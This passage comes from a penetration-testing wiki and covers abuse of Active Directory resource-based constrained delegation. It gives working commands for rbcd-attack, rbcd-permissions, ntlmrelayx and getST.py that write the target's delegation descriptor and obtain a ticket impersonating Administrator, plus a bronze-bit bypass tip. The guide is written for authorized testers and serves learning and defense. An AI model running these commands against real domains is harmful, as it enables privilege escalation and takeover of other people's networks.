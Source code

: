 **2 - Edit the target's security descriptor** ✏ ****

The [rbcd-attack](https://github.com/tothi/rbcd-attack) script \(Python\) can be used to modify the delegation rights \(populate the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor\), using the credentials of a domain user. The [rbcd permissions](https://github.com/NinjaStyle82/rbcd_permissions) script \(Python\) is an alternative to rbcd-attack that can also do [pass-the-hash](../abusing-lm-and-ntlm/pass-the-hash.md), [pass-the-ticket](pass-the-ticket.md), and operate cleanup of the security descriptor.

```bash
rbcd-attack -f 'SHUTDOWN' -t $Target -dc-ip $DomainController 'DOMAIN\anonymous:anonymous'

# Attack (example with user/password)
rbcd-permissions -c 'CN=SHUTDOWN,OU=Computers,DC=DOMAIN,DC=LOCAL' -t 'CN=TARGET,OU=Computers,DC=DOMAIN,DC=LOCAL' -d $DOMAIN_FQDN -u $USER -p $PASSWORD -l $LDAPSERVER

# Cleanup
rbcd-permissions --cleanup -c 'CN=SHUTDOWN,OU=Computers,DC=DOMAIN,DC=LOCAL' -t 'CN=TARGET,OU=Computers,DC=DOMAIN,DC=LOCAL' -d $DOMAIN_FQDN -u $USER -p $PASSWORD -l $LDAPSERVER
```

{% hint style="success" %}
Testers can use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to set the delegation rights with the `--delegate-access` option \(see [NTLM relay](../abusing-lm-and-ntlm/relay.md)\) instead of using [rbcd-attack](https://github.com/tothi/rbcd-attack) or [rbcd-permissions](https://github.com/NinjaStyle82/rbcd_permissions)
{% endhint %}

**3 - Obtain a ticket** 🎫 ****

Once the security descriptor has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can then perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated but it can be any user in the environment\).

```bash
getST.py -spn $target_SPN -impersonate Administrator -dc-ip $DomainController 'DOMAIN/SHUTDOWN$:SomePassword'
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

{% hint style="warning" %}
In [some cases](delegations.md#theory), the delegation will not work. Depending on the context, the [bronze bit ](forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability \(CVE-2020-17049\) can be used with the `-force-forwardable` option to try to bypass restrictions.
{% endhint %}

**4 - Pass-the-ticket** 🛂 ****

Once the ticket is obtained, it can be used with [pass-the-ticket](pass-the-ticket.md).
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.
